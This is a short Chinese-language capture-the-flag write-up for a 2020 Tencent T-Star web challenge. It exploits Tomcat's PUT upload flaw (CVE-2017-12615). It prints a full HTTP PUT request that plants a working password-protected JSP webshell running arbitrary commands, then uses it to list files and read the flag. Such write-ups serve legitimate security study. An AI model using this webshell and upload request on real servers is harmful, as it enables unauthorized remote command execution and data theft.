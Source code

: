 ```yaml
---
title: Web - 小猫咪踩灯泡
description: 2020 | 腾讯犀牛鸟网络安全 | T-Star-高校挑战赛 | Web
---
```


## 解题思路

- 题目描述提到 tomcat 远程代码执行（CVE-2017-12615）
- 使用 BurpSuit 拦截网页的 GET 请求，并发送到 Repeater
- 构造 webshell 并发送<br>
    ```
    PUT /hack.jsp/ HTTP/1.1
    Host: f5b9bbe0.yunyansec.com
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:77.0) Gecko/20100101 Firefox/77.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Connection: close
    Upgrade-Insecure-Requests: 1
    If-Modified-Since: Thu, 20 Jun 2019 10:03:08 GMT
    If-None-Match: W/"5619-1561024988000"
    Cache-Control: max-age=0
    Content-Length: 660

    <%@ page language="java" import="java.util.*,java.io.*" pageEncoding="UTF-8"%><%!public static String excuteCmd(String c) {StringBuilder line = new StringBuilder();try {Process pro = Runtime.getRuntime().exec(c);BufferedReader buf = new BufferedReader(new InputStreamReader(pro.getInputStream()));String temp = null;while ((temp = buf.readLine()) != null) {line.append(temp
    +"\\n");}buf.close();} catch (Exception e) {line.append(e.getMessage());}return line.toString();}%><%if("023".equals(request.getParameter("pwd"))&&!"".equals(request.getParameter("cmd"))){out.println("<pre>"+excuteCmd(request.getParameter("cmd"))+"</pre>");}else{out.println(":-)");}%>
    ```
    ![构造 webshell](img/t_star_tomcat01.jpg)
- 此时可通过`http://f5b9bbe0.yunyansec.com/hack.jsp?&pwd=023&cmd=ls`远程查看文件目录下内容，发现`flag.txt`<br>
![找到 Flag 文件](img/t_star_tomcat02.jpg)
- `cat`一下即可获取 Flag<br>
![Catch the flag!](img/t_star_tomcat03.jpg)

## 参考资料

- [Tomcat 任意文件上传漏洞CVE-2017-12615复现测试](https://blog.csdn.net/qq1124794084/article/details/78044756)